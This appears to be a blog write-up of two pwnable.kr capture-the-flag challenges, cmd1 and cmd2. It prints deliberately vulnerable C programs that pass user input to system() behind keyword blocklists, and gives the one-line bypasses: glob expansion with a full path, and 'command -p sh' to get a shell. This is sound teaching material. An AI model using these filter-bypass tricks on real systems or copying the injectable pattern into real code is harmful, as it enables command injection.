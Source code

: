 ```yaml
---
layout: post
title: "cmd challenges in Pwnable.kr"
date: 2019-07-27 +0100
categories: ctf
---
```

In this post we solve a few easy challenges on pwnable.kr called `cmd1` and `cmd2`


## cmd1 and cmd2       
                           
These two challenges required us to circumvent a cleared `PATH` environment variable.          
                                                    
### cmd1                         
                                     
In the first challenge, the program has a small filter, that doesn't include `/`
                          
```c                                    
#include <stdio.h>                    
#include <string.h>                                      
                                     
int filter(char* cmd){                                              
        int r=0;                   
        r += strstr(cmd, "flag")!=0; 
        r += strstr(cmd, "sh")!=0;  
        r += strstr(cmd, "tmp")!=0;                                                                         
        return r;  
}          
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );                                
        return 0;              
}                              
```                                           
                             
Omitting this filter is rather easy with sh's `*` expansion and a full path to the executeable we wish to utilize.
                                     
`./cmd1 "/bin/cat /home/cmd1/fl*"`
           
        
### cmd2

In the second challenge, the program has a larger filter, and clears all environment variables. 

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

This makes us unable to use the solution from the first challenge, as it includes `/` for the program name.

However, sh has a built-in, called `command`, see the [bash man page](http://manpages.ubuntu.com/manpages/xenial/man7/bash-builtins.7.html?source=post_page---------------------------), this takes a parameter `-p` which uses a default setting for the `PATH` variable. Now we can execute `./cmd2 "command -p sh"` and pop a shell, from here we can `cat` the flag.

